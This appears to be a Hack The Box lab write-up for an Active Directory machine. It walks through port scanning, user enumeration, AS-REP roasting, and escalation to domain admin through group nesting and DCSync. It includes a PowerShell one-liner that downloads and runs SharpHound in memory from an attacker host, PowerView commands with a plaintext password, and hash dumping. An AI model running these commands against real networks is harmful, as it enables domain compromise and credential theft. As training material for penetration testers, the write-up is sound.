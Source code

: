 # Nmap
TCP Ports : 88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49680,49695,49704
```sh
PORT      STATE SERVICE      REASON  VERSION
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2024-02-27 14:04:31Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open              syn-ack Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
....
```

# RPCclient

We will enumerate users with rpcclient
```sh
rpcclient -U "" -N  10.10.10.161
```

![](rpcc.png)

We note down all the usernames.

# Enum4linux

Enum4linux gives us loads of  information. Including the usernames, domain group memberships, password policies etc
```sh
enum4linux 10.10.10.161 
```


# As-rep roasting
We can put the users in a text file and lookup users who do not have pre-authentication in place:

```sh
impacket-GetNPUsers -dc-ip 10.10.10.161  -request    -usersfile ../../users.txt htb.local/Guest
```

![](alf.png)

Yes! We have a password!

![](pwd.png)

we can log in as the user svc-alfresco with evil-winrm

![](user.png)

# Privilege escalation
To gather information about the domain we can use SharpHound.ps1. I like to run it from memory:
```ps
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('http://10.10.14.11/SharpHound.ps1');Invoke-BloodHound -CollectionMethod All" 
```

It took me while to figure out the path. But I managed.

![](path.png)

Our account svc-alfresco is member of the “SERVICE ACCOUNTS@HTB.LOCAL” group which is nested in “PRIVILEGED IT ACCOUNTS@HTB.LOCAL” group which again is nested in “ACCOUNT OPERATORS@HTB.LOCAL” group.

According to Microsoft: 
> The Account  Operators group applies to the Windows Server operating system in the  Default Active Directory security groups list. By default, this built-in group has no members.  The group can create and manage users and groups in the domain,  including its own membership and that of the Server Operators group.

The account operator group has GenericAll (= Full) permissions on the “EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL” Group. Which means we can add members ti that group.

> The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL

> A discretionary access control list (DACL) identifies the trustees that are allowed or denied access to a securable object.  When a process tries to access a securable object, the system checks  the ACEs in the object's DACL to determine whether to grant access to  it.

After we add a user to the group we can grant DSYNC rights to that user and perform a 
Domain Controller Synchronization.


Let's add our user to the “EXCHANGE WINDOWS PERMISSIONS” GROUP.

![(groupadd.png)

And follow the steps given by bloodhound.:

```psh
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity svc-alfresco -Rights DCSync
```

Now we can dump all the hashes with secretsdump

![](secretsdump.png)

Pass the administrator hash with evil-winrm and get the root flag!

![](root.png)

